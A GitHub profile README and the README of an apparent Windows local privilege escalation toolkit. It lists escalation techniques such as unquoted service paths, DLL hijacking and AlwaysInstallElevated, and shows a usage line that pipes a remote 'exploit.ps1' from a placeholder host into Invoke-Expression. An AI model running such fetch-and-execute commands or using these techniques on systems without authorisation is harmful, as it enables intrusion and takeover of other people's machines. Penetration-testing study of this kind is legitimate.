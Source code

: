 <h1 align="left">Hey 👋 What's up?</h1>

###

<p align="left">Hello my name is Abbas Aghayev but internet knows me as d3hack. Can be d3hvck or d3hxck. If you can help me on anything, please do it. Love to share and work together with any professional.</p>

###

<h2 align="left">About me</h2>

###

<p align="left">✨ Im hacking Windows since 2011<br>📚 I'm currently learning AD DC and Advanced Penetration Testing Methods<br>🎯 Goals: Being HEAD OF CYBERSECURITY DIVISION<br>🎲 Fun fact: Do not trust any code on internet</p>

###

<h2 align="left">I work with</h2>

###

<div align="left">
  <img src="https://skillicons.dev/icons?i=powershell" height="40" alt="powershell logo"  />
  <img width="12" />
  <img src="https://cdn.simpleicons.org/c++/00599C" height="40" alt="cplusplus logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/c/c-original.svg" height="40" alt="c logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" height="40" alt="vscode logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/python/python-original.svg" height="40" alt="python logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/windows8/windows8-original.svg" height="40" alt="windows8 logo"  />
</div>

###

<img align="left" height="400" src="https://raw.githubusercontent.com/d3hvck/WinPrivEsc/refs/heads/main/WindowsExploited.webp"  />

###

<div align="center">
  <img src="https://profile-counter.glitch.me/d3hvck/count.svg?"  />
</div>

###

<div align="center">
  <img src="https://github-read-medium-git-main.pahlevikun.vercel.app/latest?limit=4&username=@aghayev2a" alt="Layout with last medium posts"  />
</div>

###


# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro


Primary focused to escalate privileges: 

    - DLL Hijacking

    - Service binPath
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry
    
    - Service ExecFile

    - Registry Autorun
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task
    
    - Startup Application

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

```bash
  <> operator
  - dash
  / shash
  \ revers-shlash
  = equal
  $ val / def
  ' quot
  " double quot
```

Absolute Path in quotes:

 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 